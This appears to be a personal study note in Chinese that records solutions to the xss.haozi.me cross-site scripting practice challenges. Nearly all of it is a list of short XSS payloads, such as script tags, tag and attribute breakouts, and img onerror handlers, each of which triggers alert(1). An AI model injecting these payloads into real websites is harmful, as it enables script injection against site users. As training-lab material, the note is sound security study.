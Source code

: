 ```yaml
---
layout: default
title: ssh_notes
categories:
- C++
tags:
- C++
---
```

//Description:

//Create Date: 2020-02-20 00:09:20

//Author: channy

# ssh_notes

[练习页面](https://xss.haozi.me/)

前言：做了两题终于弄明白，目标是要使页面显示"alert(1)"

0. 直接输入"alert(1)"?

> <script>alert(1)</script>

1. 类似于xml?

> </textarea><script>alert(1)</script>

3. 又迷糊了。。。

> "><script>alert(1)</script>

4. html: #40; -> ( ; #41 -> ) .

> <img src="" onerror="alert&#40;1&#41;"/>

5. 

> --!><img src="" onerror="alert&#40;1&#41;"/>

6. 一定要image吗？前面的script怎么改？

> type="image" src="" onerror
="alert(1)"

7. 迷惑+1

> <img src="" onerror="alert(1)"

8. 这都可以？

> </style
><img src="x" onerror="alert(1);">

9. 。。。放弃了

> https://www.segmentfault.com<img src="x" onerror="alert(1)">

[back](/)

